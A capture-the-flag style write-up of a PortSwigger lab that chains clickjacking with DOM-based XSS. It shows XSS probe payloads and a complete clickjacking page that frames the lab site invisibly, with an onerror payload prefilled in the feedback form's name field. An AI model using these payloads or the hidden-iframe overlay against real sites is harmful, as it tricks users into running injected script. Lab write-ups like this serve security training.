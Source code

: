 
### Exploiting clickjacking vulnerability to trigger DOM-based XSS : PRACTITIONER

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Heading to the submit feedback button and clickin on it.

![](./screenshots/lab4-1.png)

> Adding in the name, email, and message the following payload to check if any are vulnerable to XSS.

```HTML
<script> alert(1); </script>
```

> Submitting feedback, we get nothing.
> Opening the request sent via BURPSUITE PROXY HTTP history.

![](./screenshots/lab4-2.png)

> We see that the tags are url encoded.
> Trying another technique, placing this payload in the name parameter.

```HTML
<img src="1" onerror="alert(1)">
```

> After submitting feedback, we get the alert pop-up.
> If we hadn't, we wouldve tried the other input fields.

![](./screenshots/lab4-3.png)

> Now that we have an XSS vulnerability, we can try to craft a clickjack payload.
> Since this request to submit feedback is a `POST` request, we need to check if we can prefill the `name` input field, and then bait the user into clicking the submit feedback with the prepopulated XSS payload.
> Similar to [[Portswigger/Clickjacking/Lab 2|Lab 2]], we prefill the forms of the `/feedback` page by simply adding them as query parameters.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:1200px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:800px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0aa1002604bc5bfd8123b16a009000f6.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=mins@mins.com&subject=mins&message=mins"> </iframe> 
</body>
```
> We added all the parameters, and got their names from the `POST` request to `/feedback` we sent before.
> Change the positioning of the `top` and `left` in `#decoy_website` so that the `click` text is right on top of the submit feedback button.
> To do that, let the opacity be `0.1` for now, and then once they match, we make it transparent `0.00001`.

> Through the exploit server, store and view the exploit to test the payload.

![](./screenshots/lab4-4.png)

> The correct positions for the click text to be on top of the button is below, and the opacity is changed to transparent for the attack.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:1200px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:800px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0aa1002604bc5bfd8123b16a009000f6.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=mins@mins.com&subject=mins&message=mins"> </iframe> 
</body>
```

> To confirm, the mouse is supposed to change to the pointer as it goes on top of the `click` text.
> Delivering the exploit to victim completes the lab.

---
